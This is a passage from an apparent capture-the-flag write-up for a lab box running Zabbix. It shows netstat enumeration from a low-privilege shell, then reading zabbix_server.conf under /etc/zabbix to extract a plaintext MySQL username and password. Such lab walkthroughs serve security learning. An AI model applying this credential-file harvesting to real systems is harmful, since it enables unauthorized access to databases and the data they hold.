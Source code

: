 Zabbix server uses either of the following DB engines:

- IBM DB2
- MySQL
- Oracle
- PostgreSQL
- SQLite

Viewing listening ports, we find:

```bash
ipmi-svc@shibboleth:~$ netstat -antp
netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:10050           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:10051           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -

//redacted
```

Zabbix server communicates with the Zabbix agents on ports 10050 and 10051. But we have 3306, meaning it's using mysql. We need credentials though to access the DB. Doing some [research](https://www.zabbix.com/documentation/current/en/manual/installation/install#:~:text=6-,Review%20and%20edit%20configuration%20files,-edit%20the%20Zabbix), we learn that database name, user and password are located in `zabbix_server.conf` file. In this case, we can get that in `/etc/zabbix`.

```bash
ipmi-svc@shibboleth:/var/www/html$ cd /etc/zabbix
cd /etc/zabbix
ipmi-svc@shibboleth:/etc/zabbix$ ls -la
ls -la
total 100
drwxr-xr-x  4 root     root      4096 Nov  8 11:02 .
drwxr-xr-x 96 root     root      4096 Nov  8 11:02 ..
-r--------  1 zabbix   zabbix      33 Apr 24  2021 peeesskay.psk
drwxr-xr-x  2 www-data root      4096 Apr 27  2021 web
-rw-r--r--  1 root     root     15317 May 25  2021 zabbix_agentd.conf
-rw-r--r--  1 root     root     15574 Oct 18  2021 zabbix_agentd.conf.dpkg-dist
drwxr-xr-x  2 root     root      4096 Apr 27  2021 zabbix_agentd.d
-rw-r-----  1 root     ipmi-svc 21863 Apr 24  2021 zabbix_server.conf
-rw-r-----  1 root     ipmi-svc 22306 Oct 18  2021 zabbix_server.conf.dpkg-dist
```

Catting the contents, we get the required credentials.

```bash
ipmi-svc@shibboleth:/etc/zabbix$ cat zabbix_server.conf | grep DB
cat zabbix_server.conf | grep DB
### Option: DBHost
# DBHost=localhost
### Option: DBName
# DBName=
DBName=zabbix
### Option: DBSchema
# DBSchema=
### Option: DBUser
# DBUser=
DBUser=zabbix
### Option: DBPassword
DBPassword=bloooarskybluh
//redacted
```

